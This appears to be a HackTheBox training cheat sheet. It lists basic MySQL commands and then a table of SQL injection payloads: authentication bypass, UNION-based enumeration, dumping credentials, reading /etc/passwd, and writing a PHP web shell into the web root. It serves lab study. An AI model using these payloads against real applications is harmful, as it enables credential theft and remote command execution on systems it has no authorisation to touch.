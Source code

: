 ## MySQL

| **Command**   | **Description**   |
| --------------|-------------------|
| **General** |
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p` | login to mysql database |
| `SHOW DATABASES` | List available databases |
| `USE users` | Switch to database |
| **Tables** |
| `CREATE TABLE logins (id INT, ...)` | Add a new table |
| `SHOW TABLES` | List available tables in current database |
| `DESCRIBE logins` | Show table properties and columns |
| `INSERT INTO table_name VALUES (value_1,..)` | Add values to table |
| `INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)` | Add values to specific columns in a table |
| `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>` | Update table values |
| **Columns** |
| `SELECT * FROM table_name` | Show all columns in a table |
| `SELECT column1, column2 FROM table_name` | Show specific columns in a table |
| `DROP TABLE logins` | Delete a table |
| `ALTER TABLE logins ADD newColumn INT` | Add new column |
| `ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn` | Rename column |
| `ALTER TABLE logins MODIFY oldColumn DATE` | Change column datatype |
| `ALTER TABLE logins DROP oldColumn` | Delete column |
| **Output** |
| `SELECT * FROM logins ORDER BY column_1` | Sort by column |
| `SELECT * FROM logins ORDER BY column_1 DESC` | Sort by column in descending order |
| `SELECT * FROM logins ORDER BY column_1 DESC, id ASC` | Sort by two-columns |
| `SELECT * FROM logins LIMIT 2` | Only show first two results |
| `SELECT * FROM logins LIMIT 1, 2` | Only show first two results starting from index 2 |
| `SELECT * FROM table_name WHERE <condition>` | List results that meet a condition |
| `SELECT * FROM logins WHERE username LIKE 'admin%'` | List results where the name is similar to a given string |

## MySQL Operator Precedence
* Division (`/`), Multiplication (`*`), and Modulus (`%`)
* Addition (`+`) and Subtraction (`-`)
* Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
* NOT (`!`)
* AND (`&&`)
* OR (`||`)

## SQL Injection
| **Payload**   | **Description**   |
| --------------|-------------------|
| **Auth Bypass** |
| `admin' or '1'='1` | Basic Auth Bypass |
| `admin')-- -` | Basic Auth Bypass With comments |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |
| **Union Injection** |
| `' order by 1-- -` | Detect number of columns using `order by` |
| `cn' UNION select 1,2,3-- -` | Detect number of columns using Union injection |
| `cn' UNION select 1,@@version,3,4-- -` | Basic Union injection |
| `UNION select username, 2, 3, 4 from passwords-- -` | Union injection for 4 columns |
| **DB Enumeration** |
| `SELECT @@version` | Fingerprint MySQL with query output |
| `SELECT SLEEP(5)` | Fingerprint MySQL with no output |
| `cn' UNION select 1,database(),2,3-- -` | Current database name |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | Dump data from a table in another database |
| **Privileges** |
| `cn' UNION SELECT 1, user(), 3, 4-- -` | Find current user |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if user has admin privileges |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -` | Find if all user privileges |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |
| **File Injection** |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |

> A `UNION` statement can only operate on SELECT statements with an `equal number of columns`.
> For advanced SQL injection, we may want to simply use 'NULL' to fill other columns, as 'NULL' fits all data types.

example
```
MariaDB [employees]> desc employees;
+------------+---------------+------+-----+---------+-------+
| Field      | Type          | Null | Key | Default | Extra |
+------------+---------------+------+-----+---------+-------+
| emp_no     | int(11)       | NO   | PRI | NULL    |       |
| birth_date | date          | NO   |     | NULL    |       |
| first_name | varchar(14)   | NO   |     | NULL    |       |
| last_name  | varchar(16)   | NO   |     | NULL    |       |
| gender     | enum('M','F') | NO   |     | NULL    |       |
| hire_date  | date          | NO   |     | NULL    |       |
+------------+---------------+------+-----+---------+-------+
6 rows in set (0.329 sec)

MariaDB [employees]> desc employees;
+------------+---------------+------+-----+---------+-------+
| Field      | Type          | Null | Key | Default | Extra |
+------------+---------------+------+-----+---------+-------+
| emp_no     | int(11)       | NO   | PRI | NULL    |       |
| birth_date | date          | NO   |     | NULL    |       |
| first_name | varchar(14)   | NO   |     | NULL    |       |
| last_name  | varchar(16)   | NO   |     | NULL    |       |
| gender     | enum('M','F') | NO   |     | NULL    |       |
| hire_date  | date          | NO   |     | NULL    |       |
+------------+---------------+------+-----+---------+-------+
6 rows in set (0.323 sec)

MariaDB [employees]> select * from departments union select emp_no,birth_date from employees;

...
| 10653   | 1956-09-05         |
| 10654   | 1958-05-01         |
+---------+--------------------+
663 rows in set (0.633 sec)
```
